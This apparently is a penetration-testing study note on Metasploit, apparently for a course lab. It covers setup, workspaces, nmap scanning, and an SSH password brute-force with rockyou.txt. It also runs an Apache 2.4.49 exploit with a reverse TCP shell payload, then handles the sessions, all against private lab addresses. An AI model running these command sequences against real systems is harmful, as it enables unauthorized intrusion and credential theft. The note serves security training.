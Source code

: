 ```yaml
---
tags:
---
```

# metasploit

Exploitation framework

## Capabilities

### Initialization

```bash
# Initialize the database
sudo msfdb init

# Enable the database service at boot time
sudo systemctl enable postgresql

# Start metasploit
sudo msfconsole -q

# Check database status
db_status

# Display modules
show -h
[*] Valid parameters for the "show" command are: all, encoders, nops, exploits, payloads, auxiliary, post, plugins, info, options
[*] Additional module-specific parameters are: missing, advanced, evasion, targets, actions
```

### Workspaces

```bash
# Display workspaces
workspace

# Create a new workspace
workspace -a pen200
```

### Fundamentals

Command categories

- Core Commands
- Module Commands
- Job Commands
- Resource Script Commands
- Database Backend Commands
- Credentials Backend Commands
- Developer Commands

#### Database Backend Commands

```bash
# Execute nmap within metasploit
db_nmap -A 192.168.50.202

# List discovered hosts
hosts

# List discovered services from nmap scans
services
services -p 8000
```

### Auxiliary Modules

```bash
# SMB auxiliary module command sequence
show auxiliary
search type:auxiliary smb
use 56
info
show options
set RHOSTS 192.168.40.202
# OR set RHOSTs with database
services -p 445 --rhosts
run
vulns

# SSH auxiliary module command sequence
search type:auxiliary ssh
use 15
show options
set PASS_FILE /usr/share/wordlists/rockyou.txt
set USERNAME george
set RHOSTS 192.168.50.201
set RPORT 2222
run
creds
```

### Exploit modules

```bash
# Apache exploit module command sequence
workspace -a exploits
search Apache 2.4.49
use 0
info
show options
set payload payload/linux/x64/shell_reverse_tcp
show options
set SSL false
set RPORT 80
set RHOSTS 192.168.50.16
run
# OR run as a job to require us to interact with the session before accessing it
run -j
```

Now inside shell on target

```bash
id

# Background session with Ctrl + z
^Z
y
```

Back in metasploit

```bash
# List sessions
sessions -l

# Interact with a session
sessions -i 2

# Kill a session
sessions -k 2
```
